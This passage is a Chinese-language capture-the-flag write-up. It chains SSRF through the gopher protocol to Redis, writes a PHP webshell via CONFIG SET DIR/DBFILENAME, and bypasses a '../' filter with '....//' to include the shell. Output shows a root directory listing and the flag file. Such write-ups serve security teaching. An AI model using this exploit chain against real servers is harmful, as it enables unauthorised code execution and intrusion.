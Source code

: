 這裡，果我們想和 redis server 溝通的話，可以使用 `gopher://` protocol (課堂有講到)。既然我們能跟 redis server 溝通了，我們可以下以下的命令讓 redis 在 `/tmp` 生出一個 php shell：
```
FLUSHALL
SET shell "<?php system($shell_cmd) ?>"\r
CONFIG SET DIR /tmp\r
CONFIG SET DBFILENAME lol.inc.php\r
SAVE\r
QUIT\r
EOF;
```

不過，由於一些限制 ( 待會說到 )，我沒法寫出完整的 PHP shell，只能生成執行單一指令的 PHP 檔。 參閱 `redis.php`。`redis.php`能生成我們需要的與 redis 溝通的 gopher protocol 的 payload。使用方法如下：
```bash
php redis.php <shell_cmd>
```

先試試 `ls /`：
```bash
user@kali:~$ php base64.php `php redis.php "ls /"`
+OK
+OK
+OK
+OK
+OK
+OK
```
多試幾次應該就成功把 PHP shell 寫到了 `/tmp/lol.inc.php` 內了。寫到 `lol.inc.php` 的原因一樣待會會說明。

再來，我們要試著訪問 `/tmp/lol.inc.php`。沒法子了後就回頭看看前面的 code：

```php
<div class="content article-body">
<?php
    $page = str_replace("../", "", $_GET['page'] ?? 'home');
    include("page/$page.inc.php");
?>
</div>
```
這邊有過濾 `../`，但過濾的方法很好繞過，基本上如果給 `....//`，`str_replace` 完的結果一樣會是 `../`。不過，後面的 extension 基本上不能繞過。NULL byte 截斷試了好幾次都無效。( 這也是為甚麼我存入 `lol.inc.php` 的原因，還有為甚麼我沒辦法寫出完整的 PHP shell的原因 )。總之，訪問 `http://base64image.splitline.tw:8894/?page=....//....//....//....///tmp/lol` 就能看到有趣的東西了：

```
user@kali:~$ php base64.php http://base64image.splitline.tw:8894/?page=....//....//....//....///tmp/lol
...
                        <div class="content article-body">
                            REDIS0009�	redis-ver5.0.3�
redis-bits�@�ctime��*�_used-mem��_�
                                   aof-preamble���shellbin
boot
dev
etc
flag_LgqcHFhUFlwEmZ6jZ1zMzqfasc8SjaSw
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
```